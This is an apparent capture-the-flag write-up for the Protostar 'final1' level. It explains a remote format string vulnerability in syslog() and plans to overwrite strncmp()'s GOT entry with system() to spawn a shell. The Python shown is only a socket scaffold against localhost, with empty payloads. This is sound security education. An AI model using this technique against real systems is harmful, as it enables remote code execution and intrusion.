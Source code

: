 In this level, we will adopt **Remote Format String Exploit** in `syslog()`. 

![syslog-man-page](public/image/protostar-final/syslog-man-page.png)

### Analysis

The program prompts us to enter a **username** using the `username` command and a **password** using the `login` command. These values are then logged into `/var/log/syslog`.

![check-syslog](public/image/protostar-final/check-syslog.png)

Since `syslog()` functions similarly to `printf()`, injecting format specifiers into the **username** or **pw** variables could allow us to manipulate memory.

![format-string-syslog](public/image/protostar-final/format-string-syslog.png)

Let's test it:

![syslog-after-format-string](public/image/protostar-final/syslog-after-format-string.png)

Success! We've dumped memory, confirming the vulnerability.

Now, the goal is to execute `system("/bin/sh")`. There's no direct way in the source code, but we can exploit a trick:

The `strncmp()` function (used for validation) takes `line` as input, just like `system()`. By overwriting **strncmp()'s GOT entry** with `system()`'s address, we can input a command and execute it.

Let's build our exploit and locate `strncmp()` in **GOT**.

```shell
import socket

HOST = '127.0.0.1'
PORT = 2994
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
        buf = ''
        while check not in buf:
                buf += s.recv(1)
        return buf

username = ''
login = ''

print read_until('[final1] $ ')
s.send('username ' + username + '\n')
raw_input('[Enter] to continue...')
print read_until('[final1] $ ')
s.send('login ' + login + '\n')
print read_until('[final1] $ ')
```
